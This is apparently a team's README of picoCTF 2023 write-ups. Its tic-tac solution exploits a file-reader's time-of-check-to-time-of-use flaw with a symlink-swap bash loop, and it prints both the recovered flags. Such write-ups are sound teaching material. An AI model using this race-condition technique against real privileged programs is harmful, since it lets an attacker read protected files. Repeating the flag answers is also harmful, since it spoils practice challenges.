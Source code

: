 # picoCTF2023-Writeups
A list of writeups from the 2023 PicoCTF hacking competition from team cvhs_exe.

(Follow this format pls)

<details open><summary>
	
### [Binary Exploitation](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#binary-exploitation):
	
</summary>
	
- [two-sum](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#two-sum)
- [babygame01](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#babygame01)
- [tic-tac](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#tic-tac)
- [VNE](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#vne)
- [hijacking](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#hijacking)
- [babygame02](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#babygame02)
- [two-sum](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#two-sum)
- [Horsetrack](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#horsetrack)

	
</details>


<details open><summary>
	
### [Cryptography](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#cryptography):
	
</summary>
	
- [ReadMyCert](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#readmycert)
- [rotation](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#rotation)
- [HideToSee](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#tic-tac)
- [VNE](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#HideToSee)
- [PowerAnalysis: Warmup](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#poweranalysis:-warmup)
- [PowerAnalysis: Part 1](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#poweranalysis:-part-1)
- [SRA](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#sra)
- [Poweranalysis:-part-1](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/README.md#poweranalysis:-part-1)

	
</details>


# Binary Exploit

(Add the stuff yall did as well)


## tic-tac
###  200 Points | Solved By TrooperZ
#### [View Question in Pico Gym](https://play.picoctf.org/practice/challenge/380?category=6&originalEvent=72&page=1)

AUTHOR: JUNIAS BONOU

### Description:

Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

SSH to `saturn.picoctf.net`, port `[port provided by instance]`, and run the binary named `txtreader` once connected. Login as `ctf-player` with the password, `[password provided by instance]`

Tags: picoCTF 2023, Binary Exploitation, linux, bas, toctou

Hints: 
- None.

### Solution: 

Upon loading up to the ssh, we looked at 3 useful files with `ls`: 
```
flag.txt  src.cpp  txtreader
```

As expected, we didn't have access to `flag.txt`. `txtreader` didn't let us open it either, so we peeked in the source code provided.
```
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}

```

As said in the name and tags, there's a [TOCTOU](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) vulnerability, where the file is opened before it checks for permissions when the file is read. This is easily exploitable through a handy dandy feature called [symbolic links](https://en.wikipedia.org/wiki/Symbolic_link). A symbolic link to a file is created with this command `ln -s [original file] [linked file]`. You may need to change `-s` to `-sf` to force it if the file exists.

Through this, we create our own file which we have permissions to read to with `echo OurFile > notflag.txt`. 

Then, we write a bash one-liner to create a link file and swap the linkage to the file between the flag and our dummy file. This way, we can change the ownership of the file right after it's opened and read into the memory of the program.
```
while true; do ln -sf flag.txt linky; ln -sf file.txt linky; done &
```

This will run in the background while we try to access the file. Now we have to read the file. To do so we simply run the `txtreader` repeatedly until it leaks the flag. 
```
for i in {1..30}; do ./txtreader linky; done 
```
You may have to run it a few times to get it to work.
```
...
OurFile
OurFile
Error: you don't own this file
Error: you don't own this file
OurFile
OurFile
OurFile
OurFile
Error: you don't own this file
Error: you don't own this file
Error: you don't own this file
OurFile
Error: you don't own this file
picoCTF{ToctoU_!s_3a5y_f482a247}
OurFile
OurFile
Error: you don't own this file
Error: you don't own this file
...
```
More info here: https://samsclass.info/127/proj/E10.htm

___

# Cryptography

## ReadMyCert
###  100 Points | Solved By TrooperZ
#### [View Question in Pico Gym](https://play.picoctf.org/practice/challenge/367?originalEvent=72&page=1)

AUTHOR: SUNDAY JACOB NWANYIM

### Description:

How about we take you on an adventure on exploring certificate signing requests
Take a look at this CSR file [here](https://github.com/TrooperZ/picoCTF2023-Writeups/blob/main/Cryptography/ReadMyCert/readmycert.csr)

Tags: picoCTF 2023, Cryptography

Hints: 
- Download the certificate signing request and try to read it.

### Solution: 

Simply check the CSR with OpenSSL or any other tool:
```
openssl req -in readmycert.csr -noout -text
```
This website also does the trick: https://www.sslshopper.com/csr-decoder.html

The common name is the flag: picoCTF{read_mycert_41d1c74c}

___
